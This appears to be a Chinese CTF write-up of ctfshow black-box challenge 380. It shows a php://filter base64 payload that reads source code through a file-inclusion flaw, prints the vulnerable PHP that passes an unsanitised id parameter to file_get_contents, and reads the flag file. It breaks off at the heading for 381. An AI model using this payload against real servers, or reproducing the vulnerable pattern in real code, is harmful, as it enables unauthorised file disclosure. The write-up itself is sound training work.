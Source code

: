 ```yaml
---
title: ctfshow-黑盒测试
date: 2021-10-21 16:43:30
author: Na0H
tags:	
- ctfshow
categories:
- ctfshow
excerpt: ctfshow-黑盒测试
description:  ctfshow-黑盒测试


---
```




## 380 读文件

瞎点看到都是page_?.php的格式，尝试改成page.php（可以扫）

报错缺少id参数，那么get一个id进去

伪协议读个源码：`page.php?id=php://filter/convert.base64-encode/resource=page`

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-08 19:50:40
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-08 19:59:24
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


#error_reporting(0);
$id = $_GET['id'];
if(!isset($id)){
	die('打开$id.php失败');
}else{
	$html = file_get_contents($id.'.php');
	echo $html;
}
```

flag在flag.php：`page.php?id=flag`

## 381 后台路径
